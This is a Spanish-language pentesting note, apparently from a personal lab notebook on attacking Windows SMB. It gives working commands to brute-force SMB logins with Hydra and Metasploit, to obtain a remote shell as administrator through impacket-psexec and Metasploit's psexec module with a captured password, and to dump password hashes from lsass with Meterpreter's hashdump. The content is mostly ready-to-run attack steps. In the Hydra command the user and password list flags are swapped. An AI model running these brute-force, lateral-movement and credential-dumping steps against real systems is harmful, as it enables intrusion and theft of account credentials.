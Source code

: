 #ActiveDirectory 

Podemos también hacer ataques de fuerza bruta con Hydra al protocolo SMB:
```bash
hydra -P user.txt -L passwords.txt smb://192.168.0.30
```
En caso de obtener un error haciendo ataques de fuerza bruta al protocolo smb, podemos usar metasploit:
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.0.30
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
```

![[Pasted image 20240615210050.png]]

Una vez encontrado el usuario administrador, podemos loguearnos con la herramienta de psexec siempre y cuando algún recurso compartido tenga permisos de escritura:

```python
impacket-psexec administrator@192.168.0.20
```

Si tiene permisos de escritura:
![[Pasted image 20240615210110.png]]

Si no tiene permisos de escritura:
![[Pasted image 20240615210126.png]]

No obstante, si queremos entrar con metasploit para obtener una sesión de meterpreter, tendríamos que usar el siguiente módulo:

```python
use exploit/windows/smb/psexec
```

Y establecemos los parámetros:

```python
set RHOST 192.168.0.20
set RPORT 445
set SMBUSER administrator
set SMBPASS password1
```

Y habremos obtenido lo mismo de antes pero con metasploit una sesión de meterpreter:
![[Pasted image 20240615210158.png]]

Ahora podremos incluso dumpear los passwords de los usuarios, por lo que tenemos primero que mirar al proceso lsass para hacer esto:

```python
pgrep lsass # Proceso para realizar acciones privilegiadas
migrate 464
hashdump
```

![[Pasted image 20240615210222.png]]

También podemos conocer los usuarios si entramos con la shell y usamos el comando net users, donde vemos que en este caso hay tres usuarios dentro del SMB:

![[Pasted image 20240615210229.png]]